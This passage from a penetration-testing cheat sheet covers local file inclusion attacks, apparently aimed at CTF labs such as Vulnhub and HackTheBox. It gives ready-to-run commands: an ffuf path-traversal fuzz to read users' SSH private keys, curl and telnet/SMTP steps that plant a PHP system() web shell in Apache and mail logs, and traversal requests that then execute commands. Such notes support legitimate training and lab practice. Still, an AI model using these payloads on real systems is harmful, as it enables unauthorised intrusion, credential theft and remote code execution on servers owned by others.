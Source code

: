 2. Fuzz for `id_rsa`
	```
	# Take note of wordcount
	ffuf -u http://$ip/test.php?file=../../../../../../home/FUZZ/.ssh/id_rsa -w usernames.txt 
	```
	
- Some Examples:
	- [Vulnhub Digitalworld.local (FALL) - Include SSH private key](https://yufongg.github.io/posts/Digitalworld.local-(FALL)/#tcp80-http---lfi-include-id_rsa)
	- [HackTheBox Trick - Include SSH private key](https://yufongg.github.io/posts/Trick/#lfi-vulnerability---2)


## Apache Log Poisoning
- Log file location
	```
	/var/log/apache2/access.log
	/var/log/apache/access.log
	/var/log/apache2/error.log
	/var/log/apache/error.log
	/usr/local/apache/log/error_log
	/usr/local/apache2/log/error_log
	/var/log/nginx/access.log
	/var/log/nginx/error.log
	/var/log/httpd/error_log
	```
- Poisoning
	```
	 curl "http://10.10.209.91/" -H "User-Agent: <?php system(\$_GET['c']); ?>"
	 ```
 - RCE
	```
	?view=../../../../../var/log/apache2/access.log&c=whoami;
	```
- Some Examples:
	- [Vulnhub dogcat - LFI2RCE via apache access log poisoning](https://youtu.be/NpgEb2l2vj8?t=386)
	- [ProvingGrounds Solstice - LFI2RCE via apache access log poisoning](https://youtu.be/NQ6jbKqkJ0s?t=1135)

## Mail Log Poisoning - 1 (/var/log/mail.log)
- Log file location
	```
	/var/log/mail.log
	```
- Poisoning
	```
	telnet 192.168.1.119 25
	MAIL FROM:asdf
	RCPT TO:<?php system($_GET['c']); ?>
	```
- RCE
	```
	?bolo=../../../../../../../var/log/mail&c=whoami;
	```
- Some Examples:
	- [Vulnhub Wintermute - LFI2RCE via mail.log poisoning](https://youtu.be/z5naNi69cSg?t=1236)
	- [Guide](https://www.hackingarticles.in/smtp-log-poisioning-through-lfi-to-remote-code-exceution/)
